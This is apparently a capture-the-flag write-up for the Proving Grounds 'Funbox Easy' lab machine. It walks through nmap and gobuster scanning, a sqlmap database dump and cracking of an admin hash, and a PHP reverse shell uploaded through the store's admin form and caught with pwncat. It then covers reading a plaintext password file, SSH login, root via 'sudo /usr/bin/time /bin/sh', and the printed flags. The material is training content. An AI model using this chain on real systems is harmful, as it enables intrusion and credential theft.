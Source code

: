 # Funbox Easy

*Crenata | Monday, October 25th, 2021*

***Link*** : [https://portal.offensive-security.com/proving-grounds/play](https://portal.offensive-security.com/proving-grounds/play)

---------------------------------

### Nmap Scan

Docs : [https://nmap.org/docs.html](https://nmap.org/docs.html)

- ***Initial***

```
nmap -sC -sV -oN nmap 192.168.171.111
```

```
# Nmap 7.91 scan initiated Mon Oct 25 18:13:53 2021 as: nmap -sC -sV -oN nmap/initial 192.168.171.111
Nmap scan report for 192.168.171.111
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:d8:51:6e:c5:84:05:19:08:eb:c8:58:27:13:13:2f (RSA)
|   256 b0:de:97:03:a7:2f:f4:e2:ab:4a:9c:d9:43:9b:8a:48 (ECDSA)
|_  256 9d:0f:9a:26:38:4f:01:80:a7:a6:80:9d:d1:d4:cf:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 25 18:14:36 2021 -- 1 IP address (1 host up) scanned in 43.81 seconds
```

- ***All Ports***

```
nmap -v -p- -oN all-ports 192.168.171.111
```

```
# Nmap 7.91 scan initiated Mon Oct 25 18:16:14 2021 as: nmap -v -p- -oN nmap/all-ports 192.168.171.111
Increasing send delay for 192.168.171.111 from 0 to 5 due to 84 out of 279 dropped probes since last increase.
Nmap scan report for 192.168.171.111
Host is up (0.25s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Oct 25 18:24:37 2021 -- 1 IP address (1 host up) scanned in 502.99 seconds
```

---------------------------------

### Visit The Website

```
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

- ***Visit The URL***

```
http://192.168.171.111/
```

![http://192.168.171.111/](/images/1.png)

- ***Visit /robots.txt***

```
http://192.168.171.111/robots.txt
```

```
Disallow: gym
```

- ***Visit /gym***

```
http://192.168.171.111/gym/
```

![http://192.168.171.111/gym/](/images/2.png)

---------------------------------

### Gobuster Scan

Docs : [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)

- ***Root Scan***

```
gobuster dir -u http://192.168.171.111/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o directory-list-2.3-medium.log
```

```
/store         (Status: 301) [Size: 318] [--> http://192.168.171.111/store/]
/admin         (Status: 301) [Size: 318] [--> http://192.168.171.111/admin/]
/secret        (Status: 301) [Size: 319] [--> http://192.168.171.111/secret/]
```

- ***Visit The Store Page***

```
http://192.168.171.111/store/
```

![http://192.168.171.111/store/](/images/3.png)

- ***Visit The Book Page***

```
http://192.168.171.111/store/book.php?bookisbn=978-1-49192-706-9
```

![http://192.168.171.111/store/book.php?bookisbn=978-1-49192-706-9](/images/4.png)

---------------------------------

### Sqlmap

Docs : [https://github.com/sqlmapproject/sqlmap/wiki](https://github.com/sqlmapproject/sqlmap/wiki)

```
sqlmap -u 'http://192.168.171.111/store/book.php?bookisbn=978-1-49192-706-9' --batch --dump
```

```
[19:33:05] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[19:33:05] [INFO] starting 4 processes 
[19:33:08] [INFO] cracked password 'admin' for hash 'd033e22ae348aeb5660fc2140aec35850c4da997'
Database: store                                                                
Table: admin
[1 entry]
+-------+--------------------------------------------------+
| name  | pass                                             |
+-------+--------------------------------------------------+
| admin | d033e22ae348aeb5660fc2140aec35850c4da997 (admin) |
+-------+--------------------------------------------------+
```

- ***Visit Admin Login***

```
http://192.168.171.111/store/admin.php
```

```
Name : admin
Pass : admin
```

- ***Add New Book***

```
http://192.168.171.111/store/admin_add.php
```

![http://192.168.171.111/store/admin_add.php](/images/5.png)

1. Check IP

```
ip a s tun0
```

2. Change "***php-reverse-shell.php***" ***IP*** and ***Port***
3. Upload and submit the book
4. Use ***pwncat*** command to listen

```
pwncat -l 9999
```

5. Visit the book

```
http://192.168.171.111/store/book.php?bookisbn=342-432-545-2
```

6. ***pwncat*** command will receive connection

```
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:00:04 up 22 min,  0 users,  load average: 0.06, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
tony
$ cd tony	
$ ls
password.txt
$ cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
$ 
```

---------------------------------

### SSH

```
$ ssh tony@192.168.171.111
The authenticity of host '192.168.171.111 (192.168.171.111)' can't be established.
ECDSA key fingerprint is SHA256:lDqW7tOK4ZCIRla+OSX6KVPDsRFL04w865Q2Q7MR7+k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.111' (ECDSA) to the list of known hosts.
tony@192.168.171.111's password: yxcvbnmYYY

tony@funbox3:~$ sudo su
[sudo] password for tony: 
Sorry, user tony is not allowed to execute '/usr/bin/su' as root on funbox3.
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
tony@funbox3:~$ sudo /usr/bin/time /bin/sh
# whoami
root
# cd /root/
# ls
proof.txt  root.flag  snap
# cat root.flag
Your flag is in another file...
# cat proof.txt
9d293ae9c0ad5e7d6829cc7f66f76bf2
# find / -name local.txt 2>/dev/null
/var/www/local.txt
# cat /var/www/local.txt
f18664d70768608ca1cd16dcb4fa8805
#
```